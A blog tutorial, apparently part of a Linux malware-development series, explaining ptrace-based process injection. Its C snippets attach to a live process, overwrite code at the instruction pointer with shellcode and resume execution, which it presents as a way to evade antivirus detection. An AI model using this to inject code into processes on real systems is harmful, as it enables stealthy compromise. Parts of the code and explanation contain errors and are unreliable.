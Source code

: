 ```yaml
---
title: "Process Injection - (Part 1)"
date: 2022-08-21T04:02:29-04:00
toc: false
images:
tags:
  - Linux
  - Malware
--- 
```


**Process Injection** is a defense evasion technique that is often employed within malware and entails a method of executing *arbitrary code* in the address space of a separate live process, therefore, this allows access to the process's memory, system resources and possibly network resources.

Execution via process injection may also provide a way to evade detection from security products *(anti-viruses)* because the execution is masked under a legitimate process. 

There are other useful purposes of process injection, this includes the user of *debuggers* to hook and debug applications, also some *antivirus* softwares inject into web browsers to monitor traffic and also block malicious web content. 

---

There are two main ways that code can be injected into a process and they are as follows.

1. A *legitimate process* is started and arbitrary code is injected into the process for execution.
2. Code injection into a already running live processes. *(this comes with a disadvantage since we cannot inject into a process owned by another user)*.

For this [first part](https://mutur4.github.io/posts/linux-malware-development/process-injection/), we will inject code into a currently running live process that we will create. Unlike windows that uses different windows API calls, in Linux we will use the `ptrace` system call.

### Ptrace System Call 

The *ptrace()* system call in Linux, is a system call that provides a means by which one process can control and observe the execution of another process and examine and change its *memory* and *register* values. The signature for the system call is as follows:

```bash
long ptrace(enum __ptrace_request request, pid_t pid, void *addr, void *data);
```

The arguments passed to the function are :
* `pid` - This is the process identifier of the process in which we will inject malicious code into. 
* `ptrace request` - These are a group of constants that are accepted by *ptrace()* used to specify the action to be performed. A list of these requests and their usage are specified in *ptrace()'s* man page `man ptrace`.

The *addr* and the *data* arguments are passed to the system call depending on the request type passed to *ptrace()* , this is because, some requests can ignore or use these values.

To understand how *ptrace()* can be used to  attached to a process, we will write a simple C application that is as follows:

```C
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#include <sys/ptrace.h>
#include <sys/wait.h>
#include <sys/user.h>

int main(int argc, char **argv){
	pid_t pid;
	if (argc < 2){
		fprintf(stderr, "Usage %s <pid>\n", argv[0]);
	}
	pid = atoi(argv[1]);
	if(ptrace(PTRACE_ATTACH, pid, NULL, NULL) < 0){
		perror("ptrace()");
		_exit(-1);
	}
	waitpid(pid, NULL, 0);
	fprintf(stderr, "* Attached to the process %d \n", pid);
	return 0;
}
```
> **NOTE**: _Using the above code snippet, we will add more code to expand its functionality._ 


The above code will simply take the `pid` of a process as its command line argument and will try to attach to that process. *ptrace()* takes the request **PTRACE ATTACH** that ignores the *addr* and the *data* arguments, therefore, these values are passed as *NULLs*. Attaching to a process may fail with a **permission denied** because of one of the following reasons:
* If the process is owned by another user, *i.e trying to inject into a root process*
* If the process is attached to another process *i.e A debugger or Linux utilities like __ptrace__, __strace__ etc..* 

When the process is succesfully attached, it is stopped by sending a *SIGTRAP* signal and *waitpid()* is used to wait for the delivery of the signal, and after that, we now have full control of the attached process.

The following is the code for the process that we will try to attach to:

```C
#include <unistd.h>
#include <stdio.h>
#include <unistd.h>

int main(void){
	fprintf(stdout, "*pid %d \n", getpid());
	sleep(1000);
	return 0;
}
```  
When executed the above code returns its process identifier *(pid)* and *sleep()'s* for `1000` seconds giving use time to attach to it. Running our injector application above, will attach to this process giving use full control of the process' resources.

### Controllling Registers

Using *ptrace()*, with the request **PTRACE_GETREGS**, allows us to access all the registers in the attached process. The *user_regs_struct* structure from the `user.h` header is used to store these registers and this is passed as the third argument *data*.

To this moment, we have only attached to a process; we can now access its register values and the code snippet below does exactly that

```c 
	fprintf(stdout, "* Getting Registers \n", pid);
	
	struct user_regs_struct regs;

	if (ptrace(PTRACE_GETREGS, pid, NULL, &regs)) < 0){
		perror("PTRACE_GETREGS");
		_exit(-1);
	}
	
	fprintf(stdout, "(rip) %p\n", regs.rip);
	fprintf(stdout, "(rsp) %p\n", regs.rsp);
	fprintf(stdout, "(rbp) %p\n", regs.rbp);

``` 
The values of all the registers in the process are filled and can now be accessed from the struct variable. Above, using *fprintf()*, the values of some of the main *pointer* registers are accessed and printed on screen for POC.

*ptrace()* using the **PTRACE_SETREGS** request, allows us to set the value of these registers to any value of our choice. This is where our control comes in handly since we can set the value of rip to point to the address of our injected code and return execution back to the process. There are a couple of places where code can be injected:

1. The code can be inserted in the current instruction that is being executed, this is the current address held by the rip register.
2. Code can be injected on the stack and execution redirected there, this is always a disavantage because most stacks are not executable as a protection against stack buffer overflow via shellcode injection.
3. Code an also be injected in any memory region mapped to executable, this region should always have executable permissions set.
4. Code injection in the executable's *code cave*. A code cave can be defined as a region with a contigous series of unused or null bytes that exists when a program is loaded in memory, this happens because of page aligments.

For simplicity, we will inject code in the current address held by the `rip` register. The following is a block of code that will be used to inject malicious code into a chosen memory address. 

```c
void inject_code(uint64_t *payload, pid_t pid, unsigned long *dest){
        for(size_t i = 0; i < strlen(SHELLCODE); i+= 8, payload++, dest++){
                if (ptrace(PTRACE_POKETEXT, pid, dest, *payload) < 0){
                        perror("POKTEXT");
                        _exit(-1);
                }
        } 
}

```
The ptrace request **PTRACE_POKETEXT** will take the `addr` and the `data` pointers and arguments and whatever is in `data` will be copied to `addr`.
Since this a 64-bit application we increment the iterator with 8 bytes. The **PTRACE_PEEKTEXT** request does the opposite and is used to read data from a memory region. 

### Executing Injected Code

Since the current address where `rip` was pointing to is overwritten with our malicious code we now have to return registers back to the process. As stated above the request **PTRACE_SETREGS** is used. This takes the `data` argument which is the address of the `user_regs_struct` structure.
```c
	struct user_regs_struct new_regs;
        
	memcpy(&new_regs, &regs, sizeof(struct user_regs_struct));
        new_regs.rip += 2;

        if(ptrace(PTRACE_SETREGS, pid, NULL, &new_regs) < 0){
                perror("PTRACE_SETREGS");
                _exit(-1);
        }

        if(ptrace(PTRACE_CONT, pid, NULL, NULL) < 0){
                perror("PTRACE_DETACH");
                _exit(-1);
        }

        fprintf(stdout, "* successfully injected code into the process");
```
The request **PTRACE_CONT** will resume the process from its saved stated, this will also subtract 2 bytes from the instruction pointer, therefore we add 2 bytes to excatly point the instruction pointer to the address of our injected shellcode.The **PTRACE_DETACH** request will resume execution to the attached process, therefore, executing the injected code. The complete code can be located at [inject.c](https://github.com/mutur4/Linux-Malware/blob/main/Process%20Injection/current_instruction/inject.c) and after the code is executed we get Arbitray Code Execution.  

### Conclusion

This was a simple introduction to process injection, where we injected shellcode into a live process. In the next part we will look at more advanced process injection techniques where injection will prevent the injected process from terminating or crashing.

### References 

- [x] https://papers.vx-underground.org/papers/Linux/Process%20Injection/Infecting%20Running%20Processes.pdf


